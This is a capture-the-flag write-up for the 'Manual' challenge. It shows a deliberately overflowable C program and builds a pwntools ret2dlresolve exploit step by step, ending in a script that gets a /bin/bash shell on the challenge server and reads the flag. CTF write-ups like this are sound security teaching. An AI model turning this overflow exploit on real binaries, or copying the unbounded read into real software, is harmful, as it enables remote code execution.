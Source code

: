 # Manual
---

### Challenge Description

No gadgets?

nc challenge1.lagncrash.com 10001

[manual.zip](https://github.com/caprinux/LagNCrash/files/6129967/manual.zip)

---

### Solution

We are provided with the source code and the binary ELF executable once again.

You know the drill.

```c
$ pwn checksec manual
[*] '/media/sf_Kali_Linux/manual'

    Arch:     i386-32-little

    RELRO:    No RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x8048000)

```C
#include <stdio.h>
#include <unistd.h>
int main(int argc, char** argv){
	vuln();
}

int vuln(void){
	char buf[128];
	read(0, buf, 300);
	return 0;
}
```

Okay, we tried many things, from trying some ROP to spamming support tickets to ask for libc library, but there was something we weren't seeing.

Legend has it that: When in doubt, google.

If you attempt to copy the whole checksec into google, the very second entry provides a writeup to a similar challenges. 

After reading it for some time, we realise that this challenge had something to do with ``RET2DLRESOLVE``.

Once again, when in doubt, google.

After looking around for quite some time, we arrive at a [pwntools page on ret2dlresolve](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html). 

After reading for some time again, we figured that this was what we were looking for.

This pwntool page featured a block of code using ret2dlresolve to pwn an example code that looked just like manual.

As a script kiddie, I copied the code from the website and tried to implement it for manual.

What I copied from the site:

```py
>>> context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
>>> rop = ROP(context.binary)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:        0x80482e0 read(0, 0x804ae00)
0x0004:        0x80484ea <adjust @0x10> pop edi; pop ebp; ret
0x0008:              0x0 arg0
0x000c:        0x804ae00 arg1
0x0010:        0x80482d0 [plt_init] system(0x804ae24)
0x0014:           0x2b84 [dlresolve index]
0x0018:          b'gaaa' <return address>
0x001c:        0x804ae24 arg0
>>> p = elf.process()
>>> p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
>>> p.recvline()
b'pwned\n'
```

After clearing some stuff and changing into a script format, we get:
```py
from pwn import *
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())
p = elf.process()
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.recvline()
```

We change some of the more obvious stuff, such as changing the offsets from 64 to 128 and 200 to 300 according to the manual source code.
We change the argument from echo pwned to /bin/bash so we can get shell.
We change elf.process such that it connects to the remote server.
Now we execute the following:

```py
from pwn import *
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/bash"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())
p = remote('challenge1.lagncrash.com', 10001)
p.sendline(fit({128+context.bytes*3: raw_rop, 300: dlresolve.payload}))
p.recvline()
```

We receive an error.

```py
Traceback (most recent call last):

  File "/media/sf_Kali_Linux/testingformanual", line 2, in <module>

    context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))

  File "/usr/local/lib/python3.9/dist-packages/pwnlib/elf/elf.py", line 215, in __init__

    self.file = open(path,'rb')

FileNotFoundError: [Errno 2] No such file or directory: '/usr/local/lib/python3.9/dist-packages/pwnlib/data/elf/ret2dlresolve/i386'
```

With some googling, we managed to find that ELF actually can just take in a binary file.

Hence we replace pwnlib.data.elf.ret2dlresolve.get('i386') with 'manual'

We execute it again and this time we connected to the shell and nothing happens.

Looks like we forgot to change p.recvline() to p.interactive()


```py
from pwn import *

context.binary = elf = ELF('manual')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/bash"])
rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
print(rop.dump())

p = remote('challenge1.lagncrash.com', 10001)
p.sendline(fit({128+context.bytes*3: raw_rop, 300: dlresolve.payload}))
p.interactive()
```

We now get a shell and if we list the files in the pwd, we see flag.txt.

We open flag.txt and we get the flag.

```
$ cat flag.txt
LNC{R350Lv3_7h15_4_M3}
```




